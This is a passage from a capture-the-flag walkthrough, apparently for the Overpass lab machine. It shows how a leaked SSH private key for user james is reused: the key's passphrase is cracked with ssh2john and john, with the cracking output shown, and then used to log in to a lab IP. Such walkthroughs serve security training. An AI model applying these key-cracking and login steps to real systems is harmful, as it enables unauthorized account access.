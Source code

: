 # **Foothold**

Great, we got access just with that, now we are presented with a SSH private key and a note saying that it belongs to **james**, we can copy the key and paste it into a file in our machine and use it to connect to the machine as james. We also need to change the permission of file where we copied the key to 600, we can do that with the following command:`chmod 600 {filename}`. We can now use the following command to connect: `ssh -i {filename} {target_IP}`. OH, when we try to connect, it tells us to enter a password for the private key and we don't have one, it's an easy fix, we can use `ssh2john` to get a hash and then crack that hash using `john`:

```terminal
$ ./ssh2john.py {filename} > hash                                              
$ john hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
ja-----          (id_rsa)     
1g 0:00:00:05 DONE 3/3 (2022-01-31 07:44) 0.1851g/s 262319p/s 262319c/s 262319C/s jamest1..jamelli
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have the private key's password, we can connect:

```terminal
$ ssh -i id_rsa james@10.10.191.99
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of  12:34:24 UTC 2022

  System load:  0.07               Processes:           89
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 14%                IP address for eth0: 10.10.191.99
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: 34:15 2022 from 10.11.31.131
james@overpass-prod:~$
```
